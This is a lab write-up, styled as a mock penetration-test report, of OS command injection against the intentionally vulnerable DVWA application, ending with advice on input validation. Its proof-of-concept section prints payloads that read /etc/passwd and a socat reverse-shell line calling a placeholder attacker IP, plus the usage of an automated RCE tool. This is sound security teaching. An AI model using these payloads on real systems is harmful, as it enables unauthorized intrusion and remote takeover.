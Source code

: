 # Command Injection Vulnerabilty and RCE in DVWA  

## Table of Contents
- [**Outline**](#section-0)
- [**Vulnerabiltiy Explanation**](#section-1)
- [ **Proof of Concept - Creating a Reverse Shell**](#section-2)
- [**Developing a Tool**](#section-3)
- [**Mitigating Command Injection Attacks**](#section-4)

## Outline {#section-0}
The goal of this write-up is to document and demonstrate various OS command injection attacks performed  against the  Damn Vulnerable Web Application (DVWA) input field. The objective of this attack was to gain unathorized access to the system as `www-data` service user.This report mocks a penetration testing report and a debriefing situation to a client.
The full mock debriefing can be found here: https://www.youtube.com/watch?v=Phlb5Tz4sws
## Vulnerabiltiy Explanation {#section-1}
A command injection vulnerability is a security flaw in a system that allows attackers to execute arbitrary commands on the host's operating system. This is a serious security flaw
as it allows attackers to gain unauthorized access, opening further attack vectors for the attacker. If the application/user has high privilege a compromised system could extend beyond the host system and impact the entire network or infrastructure.

| Information | Explanation                                                                      |
|-------------|----------------------------------------------------------------------------------|
| Name        | Command Injection                                                                |
| Severity    | High                                                                             |
| CVSS        | 8.4                                                                              |
| Path        | http://127.0.0.1/vulnerabilities/exec/



The base CVSS was calculated upon the following metrics.  

| Base Metrics               | Explanations                                                                                             |
|----------------------------|----------------------------------------------------------------------------------------------------------|
| Attack Vector (AV)         | Network(N) The vulnerability can be exploited remotely over a network connection.                        |
| Attack Complexity (AC)     | Low (L) The vulnerability is straightforward and requires minimal or no special knowledge.               |
| Privilege Required (PR)    | Low (L) The attack requires some privilege. The user has to login to DVWA webpage to conduct the exploit |
| User Intercation (UI)      | None (N) The vulnerability can be exploited without any user interaction.                                |
| Scope (S)                  | Unchanged(S:U) An exploit can only affect the specific system                                            |
| Confidentiality Impact (C) | Medium (M) The vulnerability has medium impact on  the confidentiality of information.                   |
| Integrity Impact (I)       | High (H) The vulnerability has a signigicant impact on the integrity of the information                  |
| Availability Impact (A)    | High (H) The vulnerability has a significant impact on the availability of the system or resource.       |


## Proof of Concept {#section-2}
For the Proof of Concept (POC) in the `Security-Low-Level` module, the tester has manually discovered that the input field is vulnerable to command injection. By providing an IP address augmented with the `&&` operator and a preferred command, such as `/etc/passwd`, the tester  was able to view sensitive data from the system. The `&&` operator executes the first command and then proceeds to the next command, enabling the testers to execute any command.
```bash
127.0.0.1 && cat /etc/passwd 
``` 
![](/assets/cinject/exposed.gif)

The tester has also further discovered that the input field is vulnerable to other operators, such as `;`, `|`, `&` and `||`. This vulnerability exists primarily due to lack of input validation and sanitization. It can be seen from the source code that there is zero meaures to validate or sanitize user input. 
  ![](/assets/cinject/low.png)

For the `Security-Medium-Level` module, after some trial and error, the tester figured out that the input field was still vulnerable to the pip operator `|` and led to the same result as the above. There were some sanitization but was not extensive with the various operators, leaving the application largly vulnerable.
![](/assets/cinject/medium.png)


After some more trial and error with the `Security-High-Level` module, the tester has discovered that the `|` pipe operator was still vulnerable. Upon closer inspection of the source code, the tester identified a minor mistake in the sanitization of user input. Instead of replacing the pipe operator `|` with a blank string as intended , the developer mistakenly added a blank space within the operator `'| '`, which does not exactly target the pip operator as intended. Thus the code resulted in inadequate sanitization of user input.
![](/assets/cinject/High.png)


## Establishing a Reverse Shell {#section-2}
To take steps further, the tester has made use of `socat`, a popular networking tool, to create a reverse TCP connection back to the testing machine establishing a reverse shell.  First the tester created a socat listener on the attacking machine and executed a socat reverse shell in the input field using the following commands.
```bash
nc -nlvp 1337
``` 
```bash
127.0.0.1|socat tcp-connect:Attacker_IP:1337 exec:bash
``` 
![](/assets/cinject/reverseShell.gif)

The tester was granted a full command-line interface shell, offering complete control over the compromised system. This provided the ability to execute commands and easily navigate the file system, opening up possibilities for potential privilege escalation and lateral movement within the internal network.

Initially, attempts to establish a reverse shell using `bash` and `netcat` were unsuccessful. However, through further trial and error using different networking tools such as `socat`, a successful reverse shell was achieved. This highlights the importance of persistence, experimentation, and utilizing a variety of tools during a penetration test.


## Developing a Python Tool {#section-3}
To streamline and automate the process, the tester has developed a Python script that scans for command injection vulnerabilities and, upon successful identification, proceeds to execute a Remote Code Execution (RCE). This approach simplifies the task and enhances efficiency in identifying and leveraging potential security weaknesses.
The script can be found here [Kwang Command Injection RCE Tool](https://github.com/Kwangyun/Web-Automation-Tools/blob/main/CInjectionRCE.py) \
![](/assets/cinject/myScript.gif)
The tool can be used as the following with -u signifying the target url, -p reverse shell port and -i the revershell IP
```bash
python CInjectionRCE.py -u http://127.0.0.1/vulnerabilities/exec/ -p 1234 -i 192.168.45.193
``` 

## Mitigating Command Injection Attacks {#section-4}

### User Input Validation
User Input Validation involves verifying whether a user's input satisfies the conditions established by the developer. There are two primary approaches to input validation: the Blacklist-based approach and the Whitelist-based approach.  
#### Blacklist-based approach
The Blacklist-based approach entails checking whether the user input contains any characters present in a predefined blacklist. However, this method is susceptible to human error, as exemplified by the `Security-High-Level` module, and is therefore not recommended.
#### Whitelist-based approch
In contrast, the Whitelist-based approach checks input values against a predefined list of permitted values. In this approach, the application ensures that the input matches safe and expected values. For example, in this application, the developers could have verified that the user input is an alphanumeric string in the form of an IP address, consisting of four octets, without any additional syntax or whitespace.

## User Input Sanitization
Contrary to user input validation, user input sanitization  modifies or removes potentially harmful elements from the input data. The objective of input sanitization is to enhance the security and integrity of the application by neutralizing or eliminating any characters or patterns that could be exploited. Sanitization methods include techniques such as escaping, filtering and whitelisting. 
Reference: [Grootboan Security](https://security.grootboan.com/)\
            [PortSwigger](https://portswigger.net/web-security/os-command-injection)